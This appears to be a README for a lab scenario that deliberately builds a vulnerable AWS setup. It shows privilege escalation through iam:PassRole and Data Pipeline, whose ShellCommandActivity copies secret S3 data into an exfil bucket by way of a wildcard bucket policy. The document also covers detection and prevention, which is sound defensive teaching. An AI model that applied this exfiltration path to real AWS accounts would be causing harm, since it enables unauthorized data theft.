

# Privilege Escalation via iam:PassRole + Data Pipeline with Resource Policy Bypass

* **Category:** Privilege Escalation
* **Sub-Category:** new-passrole
* **Path Type:** one-hop
* **Target:** to-bucket
* **Environments:** prod
* **Cost Estimate:** $0/mo
* **Pathfinding.cloud ID:** datapipeline-001
* **Technique:** Create Data Pipeline with passed role to exfiltrate S3 data, bypassing IAM restrictions via overly permissive bucket resource policy
* **Terraform Variable:** `enable_single_account_privesc_one_hop_to_bucket_iam_passrole_datapipeline_pipeline`
* **Schema Version:** 1.0.0
* **Attack Path:** starting_user → (datapipeline:CreatePipeline + PutPipelineDefinition + ActivatePipeline) → EC2 with S3 read-only role → (aws s3 cp from sensitive bucket to exfil bucket) → resource policy allows write → starting_user reads exfiltrated data → bucket access
* **Attack Principals:** `arn:aws:iam::{account_id}:user/pl-prod-datapipeline-001-to-bucket-starting-user`; `arn:aws:iam::{account_id}:role/pl-prod-datapipeline-001-to-bucket-pipeline-role`; `arn:aws:ec2:{region}:{account_id}:instance/i-xxxxxxxxx`; `arn:aws:s3:::pl-sensitive-data-datapipeline-001-{account_id}-{suffix}`; `arn:aws:s3:::pl-exfil-bucket-datapipeline-001-{account_id}-{suffix}`
* **Required Permissions:** `iam:PassRole` on `arn:aws:iam::*:role/pl-prod-datapipeline-001-to-bucket-pipeline-role`; `datapipeline:CreatePipeline` on `*`; `datapipeline:PutPipelineDefinition` on `*`; `datapipeline:ActivatePipeline` on `*`; `s3:GetObject` on `arn:aws:s3:::pl-exfil-bucket-datapipeline-001-{account_id}-{suffix}/*`
* **Helpful Permissions:** `datapipeline:DescribePipelines` (View pipeline status and configuration); `datapipeline:GetPipelineDefinition` (Retrieve pipeline definition for verification); `s3:ListBucket` (List objects in buckets for verification)
* **MITRE Tactics:** TA0004 - Privilege Escalation, TA0009 - Collection, TA0010 - Exfiltration
* **MITRE Techniques:** T1098.001 - Account Manipulation: Additional Cloud Credentials, T1578 - Modify Cloud Compute Infrastructure, T1530 - Data from Cloud Storage Object

## Attack Overview

This scenario demonstrates a sophisticated privilege escalation and data exfiltration technique using AWS Data Pipeline combined with an overly permissive S3 bucket resource policy. An attacker with `iam:PassRole` and Data Pipeline permissions can create a pipeline that executes arbitrary shell commands on EC2 instances, allowing them to access and exfiltrate sensitive S3 data.

The critical vulnerability in this scenario is the combination of two security weaknesses: (1) the ability to pass roles to Data Pipeline and execute arbitrary commands, and (2) an overly permissive bucket resource policy that allows writes from any principal. Even though the pipeline role only has `s3:GetObject` permissions (read-only), the write operation succeeds because the destination bucket's resource policy grants `s3:PutObject` to `Principal: "*"`, effectively bypassing IAM restrictions.

This attack pattern is particularly dangerous because it demonstrates how resource policies can override restrictive IAM policies, creating unexpected privilege escalation paths. Security teams often focus on IAM policies while overlooking permissive resource policies, making this a common blind spot in cloud security posture. The scenario highlights the importance of analyzing both IAM and resource-based policies together to identify true access paths.

### MITRE ATT&CK Mapping

- **Tactics**:
  - Privilege Escalation (TA0004)
  - Collection (TA0009)
  - Exfiltration (TA0010)
- **Techniques**:
  - T1098.001 - Account Manipulation: Additional Cloud Credentials
  - T1578 - Modify Cloud Compute Infrastructure
  - T1530 - Data from Cloud Storage Object

### Principals in the attack path

- `arn:aws:iam::PROD_ACCOUNT:user/pl-prod-datapipeline-001-to-bucket-starting-user` (Scenario-specific starting user)
- `arn:aws:iam::PROD_ACCOUNT:role/pl-prod-datapipeline-001-to-bucket-pipeline-role` (Read-only pipeline role with s3:GetObject permissions)
- `arn:aws:ec2:REGION:PROD_ACCOUNT:instance/i-*` (Ephemeral EC2 instance created by Data Pipeline)
- `arn:aws:s3:::pl-sensitive-data-datapipeline-001-PROD_ACCOUNT-SUFFIX` (Sensitive data bucket)
- `arn:aws:s3:::pl-exfil-bucket-datapipeline-001-PROD_ACCOUNT-SUFFIX` (Exfiltration bucket with permissive resource policy)

### Attack Path Diagram



### Attack Steps

1. **Initial Access**: Start as `pl-prod-datapipeline-001-to-bucket-starting-user` (credentials provided via Terraform outputs)
2. **Create Data Pipeline**: Use `datapipeline:CreatePipeline` to create a new pipeline with a unique pipeline ID
3. **Define Pipeline Activity**: Use `datapipeline:PutPipelineDefinition` to define a `ShellCommandActivity` that executes: `aws s3 cp s3://pl-sensitive-data-datapipeline-001-ACCOUNT-SUFFIX/secret-data.txt s3://pl-exfil-bucket-datapipeline-001-ACCOUNT-SUFFIX/exfiltrated.txt`
4. **Pass Read-Only Role**: Pass the `pl-prod-datapipeline-001-to-bucket-pipeline-role` which only has `s3:GetObject` permissions on the sensitive bucket
5. **Activate Pipeline**: Use `datapipeline:ActivatePipeline` to launch the pipeline, which spins up an EC2 instance
6. **Execute Shell Command**: The EC2 instance runs the shell command, reading from the sensitive bucket (allowed by IAM) and writing to the exfil bucket (allowed by resource policy, despite no IAM write permissions)
7. **Resource Policy Bypass**: The write succeeds because the exfil bucket has a resource policy granting `s3:PutObject` to `Principal: "*"`
8. **Retrieve Exfiltrated Data**: Use `s3:GetObject` to read the exfiltrated data from the exfil bucket
9. **Verification**: Confirm successful data exfiltration from the sensitive bucket

### Scenario specific resources created

| ARN | Purpose |
| -- | -- |
| `arn:aws:iam::PROD_ACCOUNT:user/pl-prod-datapipeline-001-to-bucket-starting-user` | Scenario-specific starting user with access keys |
| `arn:aws:iam::PROD_ACCOUNT:role/pl-prod-datapipeline-001-to-bucket-pipeline-role` | Read-only pipeline role with s3:GetObject on sensitive bucket |
| `arn:aws:iam::PROD_ACCOUNT:policy/pl-prod-datapipeline-001-to-bucket-starting-user-policy` | Policy granting Data Pipeline and iam:PassRole permissions |
| `arn:aws:iam::PROD_ACCOUNT:policy/pl-prod-datapipeline-001-to-bucket-pipeline-policy` | Policy granting s3:GetObject on sensitive bucket |
| `arn:aws:s3:::pl-sensitive-data-datapipeline-001-PROD_ACCOUNT-SUFFIX` | Sensitive data bucket containing secret data |
| `arn:aws:s3:::pl-exfil-bucket-datapipeline-001-PROD_ACCOUNT-SUFFIX` | Exfiltration bucket with overly permissive resource policy |

## Attack Lab

### Prerequisites

1. Install the `plabs` CLI:
   ```bash
   brew install pathfinding-labs/tap/plabs
   ```
2. Configure your AWS profiles in `~/.plabs/plabs.yaml` (or run `plabs init` if you haven't already)

### Deploy with plabs non-interactive

```bash
plabs enable enable_single_account_privesc_one_hop_to_bucket_iam_passrole_datapipeline_pipeline
plabs apply
```

### Deploy with plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `space` to enable it
4. Press `d` to deploy

### Executing the automated demo_attack script

The script will:
1. Display a step-by-step walkthrough with color-coded output
2. Show the commands being executed and their results
3. Create the Data Pipeline with shell command activity
4. Activate the pipeline and wait for EC2 instance launch
5. Verify successful data exfiltration from the sensitive bucket
6. Output standardized test results for automation

#### Resources created by attack script

- Data Pipeline with ShellCommandActivity
- Ephemeral EC2 instance launched by the pipeline
- Exfiltrated data file written to the exfil bucket

#### With plabs non-interactive

```bash
plabs demo --list
plabs demo iam-passrole+datapipeline-pipeline-to-bucket
```

#### With plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `r` to run the demo script

### Cleanup

After demonstrating the attack, clean up the Data Pipeline, EC2 instances, and exfiltrated data.

#### With plabs non-interactive

```bash
plabs cleanup --list
plabs cleanup iam-passrole+datapipeline-pipeline-to-bucket
```

#### With plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `c` to run the cleanup script

### Teardown with plabs non-interactive

```bash
plabs disable enable_single_account_privesc_one_hop_to_bucket_iam_passrole_datapipeline_pipeline
plabs apply
```

### Teardown with plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `space` to disable it
4. Press `D` to destroy

## Detecting Misconfiguration (CSPM)

### What CSPM tools should detect

A properly configured Cloud Security Posture Management (CSPM) tool should identify:

1. **Data Pipeline Privilege Escalation Path**:
   - User/role has `iam:PassRole` permission on roles with sensitive permissions
   - User/role has `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, and `datapipeline:ActivatePipeline` permissions
   - Roles that can be passed to Data Pipeline have access to sensitive S3 buckets
   - Potential for arbitrary command execution via ShellCommandActivity

2. **Overly Permissive S3 Bucket Resource Policy**:
   - S3 bucket resource policy grants permissions to `Principal: "*"` (any AWS principal)
   - S3 bucket allows `s3:PutObject` from all principals without restrictive conditions
   - Resource policy effectively bypasses IAM policy restrictions
   - Public or overly broad write access to buckets

3. **Resource Policy Bypass Vulnerability**:
   - IAM policies restrict write access, but resource policies grant it
   - Potential for privilege escalation through resource policy exploitation
   - Mismatch between IAM and resource-based policy intent

4. **High-Risk Permission Combinations**:
   - Combination of `iam:PassRole` with compute service creation permissions
   - Ability to execute arbitrary code through AWS services
   - Access to sensitive data buckets through compute services

### Prevention recommendations

1. **Implement Least Privilege for iam:PassRole**:
   - Restrict `iam:PassRole` to specific roles using resource-level conditions: `"Resource": "arn:aws:iam::ACCOUNT:role/specific-role"`
   - Use `iam:PassedToService` condition key to limit which services can receive roles: `"Condition": {"StringEquals": {"iam:PassedToService": "datapipeline.amazonaws.com"}}`
   - Avoid granting broad `iam:PassRole` on `Resource: "*"`

2. **Restrict Data Pipeline Permissions**:
   - Limit `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, and `datapipeline:ActivatePipeline` to specific users/roles
   - Require MFA for Data Pipeline creation: `"Condition": {"BoolIfExists": {"aws:MultiFactorAuthPresent": "true"}}`
   - Use Service Control Policies (SCPs) to block Data Pipeline in production accounts if not needed

3. **Eliminate Overly Permissive S3 Bucket Resource Policies**:
   - NEVER use `Principal: "*"` in production bucket policies without restrictive conditions
   - If public access is required, use specific conditions like `aws:PrincipalOrgID`, `aws:SourceIp`, or `aws:SourceVpc`
   - Enable S3 Block Public Access at the account and bucket level
   - Use `aws:PrincipalArn` or `aws:PrincipalAccount` conditions to restrict access to known principals

4. **Implement Defense in Depth for Sensitive Buckets**:
   - Require encryption for all data at rest and in transit
   - Enable S3 Object Lock for critical data to prevent deletion/modification
   - Use VPC Endpoints with policies to restrict bucket access to specific VPCs: `"Condition": {"StringEquals": {"aws:SourceVpc": "vpc-xxxxx"}}`
   - Apply bucket policies that explicitly deny non-compliant access patterns

5. **Regular Security Audits**:
   - Periodically review all S3 bucket policies for overly permissive statements
   - Use IAM Access Analyzer to identify resources shared with external entities or with overly broad access
   - Audit all principals with `iam:PassRole` permissions and validate necessity
   - Review roles that can be passed to compute services for least privilege compliance
   - Test for resource policy bypass vulnerabilities using tools like Pathfinding Labs

6. **Implement SCPs for Organizational Guardrails**:
   ```json
   {
     "Version": "2012-10-17",
     "Statement": [
       {
         "Effect": "Deny",
         "Action": [
           "datapipeline:CreatePipeline",
           "datapipeline:PutPipelineDefinition"
         ],
         "Resource": "*",
         "Condition": {
           "StringNotEquals": {
             "aws:PrincipalAccount": "APPROVED_ACCOUNT_ID"
           }
         }
       }
     ]
   }
   ```

## Detection Abuse (CloudSIEM)

### CloudTrail events to monitor

- `IAM: PassRole` — Role passed to Data Pipeline service; high severity when the role has access to sensitive S3 buckets
- `DataPipeline: CreatePipeline` — New Data Pipeline created; investigate when combined with PassRole and PutPipelineDefinition
- `DataPipeline: PutPipelineDefinition` — Pipeline definition set, potentially including ShellCommandActivity with arbitrary commands
- `DataPipeline: ActivatePipeline` — Pipeline activated, triggering EC2 instance launch and command execution
- `EC2: RunInstances` — EC2 instance launched by the Data Pipeline service role
- `S3: GetObject` — Objects read from the sensitive data bucket by the pipeline EC2 instance
- `S3: PutObject` — Objects written to the exfil bucket via resource policy bypass; critical when destination has permissive bucket policy

### Detonation logs

_Detonation log integration (Stratus Red Team / Grimoire) is planned for a future release._

## References

This scenario is based on privilege escalation techniques documented by:
- [Bishop Fox - AWS IAM Privilege Escalation Techniques](https://bishopfox.com/blog/privilege-escalation-in-aws) - Documented by Rhino Security Labs
- [AWS Data Pipeline Security Best Practices](https://docs.aws.amazon.com/datapipeline/latest/DeveloperGuide/dp-security-best-practices.html)
